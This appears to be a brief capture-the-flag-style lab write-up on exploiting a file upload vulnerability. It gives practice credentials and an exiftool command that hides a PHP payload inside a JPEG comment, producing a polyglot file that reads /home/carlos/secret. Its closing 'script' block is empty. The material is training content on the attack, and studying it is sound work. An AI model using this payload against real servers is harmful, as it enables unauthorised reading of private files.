 Target Goal - Exploit file upload vulnerability to exfiltrate the contents of the /home/carlos/secret

Creds - wiener:peter

Analysis:

Download cat.jpg from internet
Generate file polyglot.php

Open terminal to include signature of png or jpeg file into polygot.php
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cat.jpg -o polygot.php
```
When run the script the result is between the markers START and END!
```python
no script
```
